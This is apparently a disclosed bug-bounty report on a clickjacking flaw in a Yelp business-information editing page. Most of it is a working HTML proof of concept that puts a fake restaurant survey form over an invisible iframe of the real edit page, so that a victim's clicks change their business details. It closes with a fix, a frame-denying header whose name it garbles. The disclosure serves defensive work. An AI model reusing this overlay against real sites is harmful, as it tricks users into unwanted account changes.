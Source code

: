 # ClickJacking in editing business name

## Report Details
- **Report ID**: 227837
- **URL**: https://hackerone.com/reports/227837
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-05-12T06:05:02.739Z
- **Disclosed**: 2017-11-09T19:56:08.852Z

## Reporter
- **Username**: mohammad_obaid
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: yelp

## Vulnerability Information
##SUMMARY:

Hope you guys are doing great. I found clickjacking vulnerability while updating business page.One of the endpoints which is vulnerable to clickjacking is https://www.yelp.com/biz_attribute?biz_id=RIyHYSf3lyJcFb4El9T4tQ . Clickjacking (User Interface redress attack, UI redress attack, UI redressing) is a malicious technique of tricking a Web user into clicking on something different from what the user perceives they are clicking on, thus potentially revealing confidential information or submitting form on behalf of user while clicking on seemingly innocuous web pages.
 I believe this time I put much more effort in demonstrating impact of this bug. I request you to please take a look at this.

##IMPACT:
Click jacking on this page will allow attacker to change business information of user like business name, email address,address,city and more importantly website name. This will cause business user to potentially lose their customer if wrong information is displayed on a business page. Moreover if website address changes it can allow attacker to divert potential customer towards its website if attacker is competitor of that business user. It can also cause to change opening hours of restaurant on behalf of user .
Any user submitted page shouldn't be loaded on iframe because it can cause submission of form on behalf of user .

##POC:
Below here is the poc of existence of this vulnerability. I dint hide iframe in below poc so that you can see vulnerable page is successfully loaded in an iframe. 

```
<html  >
   <head>
 <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css">
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
  <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
   </head>
   
   
   <body style="background-color:#c5d5cb;">
     
   
    
<div style="position: absolute; left: 200px; top: 50px;">
  <div class="well" style="background-color:#6195ad;margin-right: 147px;box-shadow: inset 0 1px 17px 15px rgba(0,49,0,.05);padding:30px;">
  <h1>This is a Survey Form</h1>
  <p>We are opening new Restaurant in the city of Manhattan. For this we are asking suggestions from internet world regarding restaurant name, where it should be located ets. Please do fill form below.</p>
</div>
<h2 style="">Please help us building Restaurant which is purely based upon your suggestions.</h2>

<input type = "text"
                 id = "myText"
                  style="position:absolute;margin-top: 249px;
    margin-left: 33px;
    width: 367px" placeholder="Please enter suitable name of Restaurent" />
<input type = "text"
                 id = "myText"
                  style="position:absolute;margin-top: 318px;
    margin-left: 33px;
    width: 367px" placeholder="Pleae enter location of Restaurent in Manhattan" />
	<input type = "text"
                 id = "myText"
                  style="position:absolute;margin-top: 745px;
    margin-left: 33px;
    width: 367px" placeholder="Please enter any website name " />
				 
<button type="button" class="btn btn-success" style="position: absolute;margin-top: 1311px;margin-left: 17px;width: 176px;" >Submit Your Feedback</button>

<iframe style="opacity: 0;" height="1745" width="680" scrolling="no" src="https://www.yelp.com/biz_attribute?biz_id=RIyHYSf3lyJcFb4El9T4tQ"></iframe>
   
   
   
   
   
   
   
   
   </body>
   
   
   
</html>




```
Sorry for poor styling. I'll make styling on this page better if you ask for it so that it looks more genuine and more realistic.

##FIX:
This vulnerability can easily be fixed by adding `X-HEADER-OPTION to deny` . This will prevent this page to load in an iframe.

## Attachments
No attachments
